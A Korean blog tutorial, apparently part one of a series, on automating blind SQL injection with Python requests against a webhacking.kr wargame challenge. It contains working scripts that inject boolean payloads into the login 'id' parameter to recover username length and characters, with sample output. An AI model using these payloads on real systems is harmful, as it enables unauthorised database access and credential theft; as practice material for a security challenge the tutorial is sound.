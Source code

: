 ```yaml
---
title: "Python requests를 이용한 blind injecthion 스크립트 제작 (1편)"
date: 2019-10-23 14:05:42
tags: ["Python", "requests", "blind injection"]
draft: false
---
```


Python requests를 이용한 blind injecthion 스크립트 제작

- 일단 시작하기전에 앞서 Blind SQL Injecthion에 대해 모르신다면 [이전 포스트](https://jaeseokim.tistory.com/20) 를 참조하세요.

Python의 requests라이브러리를 이용해서 패킷을 전송하고 질의한 응답값을 보고 참과 거짓을 구분하여 자동으로 분석해주는 스크립트를 제작 하는 것이 목표!

requests 라이브러리

- requests.get

  get 요청할때 사용, 전달 가능 인자값 (url, params, cookies, headers 등)

  ex) response = requests.get(url, params)

- requests.post

  post 요청할때 사용, 전달 가능 인자값 (url, data, cookies, headers 등)

  ex) response = requests.post(url, params)

- headers 구성

  headers = {'Content-Type': 'application/json; charset=utf-8'}

- cookies 구성

  cookies = {'sid': 'asdfghjk12qwe34rt'}

- params 구성

  params = {'id': 'testid', 'pw': 'testpasswd'}

- response.status_code

  응답 코드

- response.text

  응답 결과를 text로

- response.elapsed.total_seconds()

  응답까지 걸린 시간을 체크 (Time-Based Blind injecthion에 사용)

일단 간단하게 sqi를 위한 라이브러리 사용법은 위에 있는 정도만 알고 있어도 충분 합니다.

더 자세한 정보를 얻고 싶다면 [w3schools-python-requests](https://www.w3schools.com/python/module_requests.asp) 를 참조하세요.

일단 [webhacking.kr](http://webhacking.kr) 의 21번 문제를 예시로 스크립트를 작성 해보겠습니다.

![](./image/Python-requests를-이용한-blind-injecthion-스크립트-제작-1편/iTKLEsmtKxwBhV88LRveUkimg.jpg)

문제를 보면 아이디와 비밀번호를 알아낸 다음 플래그 값을 찾아야 하는 문제 입니다.

일단 blind sql injection 점검 문자열을 작성하여 어떤 응답 값이 오는지 확인해봅니다.

일단 아이디와 패스워드 둘다 부정확 할때에는 **login fail** 이라는 응답값이 날라오고 아이디는 정확하지만 패스워드가 부정확하다고 판단 할때에는 **wrong password** 라는 값이 나타나는 것을 볼수가 있습니다.

```
https://webhacking.kr/challenge/bonus-1/index.php?id=&pw=
```

일단 url를 보면 이번 문제는 GET 으로 보내고 응답을 받는 것을 알수가 있습니다.

그리고 파라미터값은 id,pw를 통해 넘기고 있다는 것을 알수가 있습니다.

이제 패스워드를 알아내기전 아이디를 먼저 알아내보는 스크립트를 작성합니다.

```python
import requests

url = 'https://webhacking.kr/challenge/bonus-1/index.php' #url 주소를 입력
cookies = {'PHPSESSID': '사용자의 쿠기 값 입력'} #세션 쿠키를 입력

def find_id_len():
    id_len = 0
    while 1:
        id_len=id_len+1
        value = "' or char_length(id) = {}   -- '".format(id_len) #반복하면서 id의 글자수를 비교하는 Payload 코드 작성
        params = {'id': value, 'pw': 'test'} # id에 Payload 코드 삽입 pw는 아무 문자나 보낸다.
        response = requests.get(url,params=params, cookies=cookies) #GET을 통해 전달
        print(response.status_code) # 응답 코드 확인 200번아니면 오류 상태
        print(value) # 전달되는 Payload 코드 확인
        if "wrong password" in response.text: #응답 값에 wrong password가 있다면 참인 결과 이니 빠져나옴
            break
    return id_len #id 길이 반환

if __name__ == '__main__':
    print("id의 길이는 : "+str(find_id_len()))
```

**char_length()** 함수를 이용해서 반복문을 통해 만약 id의 길이가 같으면 **wrong password** 라는 값을 나타내니 break를 통해 빠져나오고 그때의 id 길이를 반환합니다.

이제 이렇게 id의 길이를 구하였는데 이러한 조건을 통해 id를 알아내도록 하겠습니다.

```python
import requests

url = 'https://webhacking.kr/challenge/bonus-1/index.php' #url 주소를 입력
cookies = {'PHPSESSID': '사용자의 쿠기 값 입력'} #세션 쿠키를 입력

def find_id_len():
    id_len = 0
    while 1:
        id_len=id_len+1
        value = "' or char_length(id) = {}   -- '".format(id_len) #반복하면서 id의 글자수를 비교하는 Payload 코드 작성
        params = {'id': value, 'pw': 'test'} # id에 Payload 코드 삽입 pw는 아무 문자나 보낸다.
        response = requests.get(url,params=params, cookies=cookies) #GET을 통해 전달
        print(response.status_code) # 응답 코드 확인 200번아니면 오류 상태
        print(value) # 전달되는 Payload 코드 확인
        if "wrong password" in response.text: #응답 값에 wrong password가 있다면 참인 결과 이니 빠져나옴
            break
    return id_len #id 길이 반환

def find_id_str(id_len):
    id_str = ""
    for len in range(1,id_len+1):
        for ascii in range(97,123): #ascii a~z까지의 값 반복
            value = "' or ascii(substring(id,{},1)) = {} -- '".format(len,ascii)  # 반복하면서 id을 substring 한다음 ascii로 변환한 값을 통해 비교해서 정답을 찾아냄
            params = {'id': value, 'pw': 'test'}  # id에 Payload 코드 삽입 pw는 아무 문자나 보낸다.
            response = requests.get(url, params=params, cookies=cookies)  # GET을 통해 전달
            print(response.status_code)  # 응답 코드 확인 200번아니면 오류 상태
            print(value)  # 전달되는 Payload 코드 확인
            if "wrong password" in response.text:  # 응답 값에 wrong password가 있다면 참인 결과 이니 빠져나옴
                id_str+=chr(ascii)+":" #참이라면 ascii코드를 char형으로 변경해서 저장
        id_str+="\n"
    return id_str #한 문자에 대한 검색이 끝날시 엔터 처리

if __name__ == '__main__':
    print("아이디 조합 : \n"+find_id_str(find_id_len()))
```

결과값을 보면 아래와 같은 결과 값이 나오는데

```
아이디 조합 :
a:g:
d:u:
e:m:
i:s:
n:t:
```

이러한 결과 값을 보고 id는 **admin, guest** 두가지 아이디가 존재 한다는 것을 확인 할 수가 있습니다.

이제 이러한 결과 값을 가지고 비번을 찾아보는 스크립트 제작은 다음 글에 이어서 알려드리겠습니다.

